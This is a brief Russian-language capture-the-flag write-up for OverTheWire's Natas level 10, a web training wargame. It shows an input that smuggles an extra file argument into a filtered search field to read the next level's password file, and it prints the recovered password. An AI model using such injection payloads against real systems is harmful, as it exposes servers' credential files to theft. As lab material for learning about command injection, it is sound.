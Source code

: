 ### Natas 10

Опять логиниимся, смотрим исходник и понимаетм что это +- та же задачка с той же уязвимостью, что и девятая но с фильтрами, поэтому решаем +- так же:
```bash
q cat /etc/natas_webpass/natas11 #
```
после чего получаем аутпут:
 >/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

собсна тут тоже можно играться со всякими командами линукса, но едем дальше